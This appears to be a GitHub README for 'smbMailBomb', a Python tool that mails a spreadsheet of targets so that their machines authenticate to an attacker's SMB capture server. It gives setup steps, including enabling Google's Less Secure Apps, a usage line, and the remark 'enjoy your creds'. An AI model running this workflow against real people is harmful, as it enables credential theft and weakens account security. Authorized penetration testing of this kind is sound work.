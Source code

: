 # smbMailBomb
A command line utility to test for SMB Forced Authentication

Set Up Capture Server
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
Configure Google to allow the script
  In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
From the command line run smbMailBomb.py and enjoy your creds. 
Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
Requirments:
  pandas==0.23.4
  colorama==0.3.9
XLSX
Add your targets first name and email, following the template provided.
